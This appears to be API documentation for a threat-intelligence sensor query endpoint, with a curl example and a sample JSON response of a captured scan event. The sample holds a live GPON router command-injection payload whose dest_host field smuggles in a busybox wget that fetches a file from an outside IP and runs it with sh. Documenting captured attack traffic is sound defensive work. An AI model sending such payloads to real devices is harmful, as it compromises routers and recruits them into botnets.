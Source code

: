 **Note**: Querying CIDRs is available for paid subscriptions only. When using CIDR, the number of credits that will be spent correspond to the number of targets that returned results. Example: a request for a /24 (256 targets) in which only 200 targets have results, will decrement 200 credits.

*Parameters*

* target: [String] Target IP address or CIDR up to /24

*Output*

```shell
curl 'https://api.binaryedge.io/v2/query/sensors/ip/xxx.xxx.xxx.xxx' -H 'X-Key:API_KEY'
```

```json
{
  "query": "xxx.xxx.xxx.xxx",
  "total": 1,
  "targets_found": 1,
  "events": [{
    "port": 443,
    "results": [{
      "target": {
        "port": 443,
        "protocol": "tcp"
      },
      "origin": {
        "ts": 1549500839739,
        "type": "sinkhole",
        "ip": "xxx.xxx.xxx.xxx",
        "rdns": "xxx.xxx.xxx.example.com"
      },
      "data": {
        "payload": "POST /GponForm/diag_Form?style/ HTTP/1.1\\r\\nUser-Agent: Hello, World\\r\\nAccept: */*\\r\\nAccept-Encoding: gzip, deflate\\r\\nContent-Type: application/x-www-form-urlencoded\\r\\n\\r\\nXWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://185.244.25.98/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0",
        "extra": {
          "http": {
            "method": "POST",
            "path": "/GponForm/diag_Form?style/",
            "version": "1.1",
            "headers": {
              "user-agent": "Hello, World",
              "accept": "*/*",
              "accept-encoding": "gzip, deflate",
              "content-type": "application/x-www-form-urlencoded"
            }
          }
        },
        "tags": ["HTTP_SCANNER"]
      }
    }]
  }]
}
```
